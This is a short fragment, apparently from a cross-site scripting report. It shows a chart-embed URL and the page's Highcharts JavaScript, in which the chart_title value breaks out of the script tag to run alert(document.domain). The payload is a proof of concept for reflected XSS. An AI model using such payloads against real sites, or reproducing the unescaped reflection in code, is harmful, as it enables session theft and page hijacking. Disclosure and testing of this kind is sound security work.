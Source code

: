 <redacted>

url=/chart_data%2Fmetric_charts%2Fsingle_metric.json...<redacted>&chart_title=title
 
<script type='text/javascript'>
      jQuery(function($) {
        var loadChart = function() {
          $('#embedded-chart').highcharts({
            height: '100%',
            dataUrl: '/public/charts/jwBDr0K0WhZ/data.json',
            render: true,
            fluid: true,
            loadingOverlay: true,
            snappable: true,
            chart_title: "</script><script>alert(document.domain)</script>",
            liveChart: false,
            dataApiUrl: '',
            zoom_url: '',
            dataApiField: '',
            addToDashboard: true,
            embeddable: true
          });
        };
        jQuery.rpm.highcharts.registerRender(loadChart);
      });
    </script>
